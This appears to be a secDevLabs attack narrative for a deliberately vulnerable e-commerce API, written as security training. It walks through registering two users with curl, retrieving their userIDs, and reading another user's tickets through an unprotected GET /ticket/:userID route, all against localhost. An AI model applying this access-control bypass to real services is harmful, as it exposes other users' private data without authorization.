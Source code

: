 # Attack Narrative - Vulnerable Ecommerce API
The main goal of this documentation is to describe how a malicious user could exploit a Broken Access Control vulnerability intentionally installed on Vulnerable Ecommerce API from secDevLabs.

If you don't know [secDevLabs] or this [intended vulnerable web application][2] yet, you should check them before reading this narrative.

---
## 👀

In order to better understand how this API works, two users, `user1` and `user2`, were created as shown below: 

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user1","password":"pass"}' http://localhost:8888/register  
```
```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user2","password":"pass"}' http://localhost:8888/register
```

<p align="center">
    <img src="attack0.png"/>
</p>


Or using web interface:

<p align="center">
    <img src="attack1.png"/>
</p>


The users created above are registered on MongoDB and we can get their `userID` through the following curl commands:

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user1","password":"pass"}' http://localhost:8888/login
```
```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user2","password":"pass"}' http://localhost:8888/login
```

<p align="center">
    <img src="attack2.png"/>
</p>

This can also be observed via the web interface. In the web interface it is possible to verify that after completing the login form, two requests are made to the API.

<p align="center">
    <img src="attack3.png"/>
</p>

## 🔥

Having both `userID`, we can verify that the route "`GET /ticket/:userID`" does not validade if the request was made by the same user or someone else without the proper permission, as shown by the image:

```sh
curl -vvv http://localhost:8888/ticket/GUID
```

<p align="center">
    <img src="attack4.png"/>
</p>

[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/ecommerce-api
